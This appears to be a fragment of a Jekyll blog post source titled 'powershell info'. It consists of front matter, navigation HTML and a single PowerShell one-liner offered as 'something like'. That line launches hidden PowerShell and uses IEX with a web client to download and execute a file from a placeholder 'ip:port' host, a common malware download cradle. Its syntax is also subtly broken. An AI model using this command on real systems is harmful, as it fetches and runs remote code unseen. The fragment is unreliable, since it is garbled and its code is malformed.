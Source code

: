 ```yaml
---
layout: post
title: "Lillian Warner, powershell info"
date: 2017-06-23
---
```

			<title>{{ page.title }}</title>
			<nav>
	    		<ul>
	        		<li><a href="/">Home</a></li>
	        		<li><a href="/about">About</a></li>
        			<li><a href="/projects">Projects</a></li>
        			<li><a href="/blog">Blog</a></li>
				<li><a href="/contact">Contact Me</a></li>
	    		</ul>
			</nav>
something like:
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"
